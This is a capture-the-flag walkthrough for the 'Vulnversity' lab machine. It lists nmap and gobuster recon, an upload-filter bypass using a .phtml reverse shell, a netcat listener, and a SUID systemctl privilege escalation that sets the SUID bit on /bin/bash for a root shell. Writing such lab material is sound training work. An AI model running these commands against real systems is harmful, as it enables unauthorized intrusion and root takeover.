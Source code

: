 # Vulnversity

- Run nmap for recon: `nmap -sC -sV -oN nmap/scan-2 10.10.162.176`
- A http server is running at 3333 and squid running at 3128
- Running gobuster on webserver: `gobuster dir -u http://10.10.162.176:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt`
- Found a directory named `/internal`
- opening the directory, found a upload page in `index.php` while uploads the files to itself and stores the files in `/internal/uploads/`
- Tried upload php files with various extensions using `code.py`
- The server was open to accept `phtml` files so uploaded the `revshell.php`
- `nc -lvnp 1234` to start listening to the server.
- Exploit the server to find the binaries with SUID bit set. `find / -user root -perm -4000 -exec ls -ldb {} \;`
- Found `/bin/systemctl` with suid bit set.
- Go to `GTFObins` to find how to use systemctl to escalate privileges
- Execute the below bash script to set the SUID of `/bin/bash`

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
- Run `/bin/bash -p` to start bash shell while retaining permissions to get the root shell.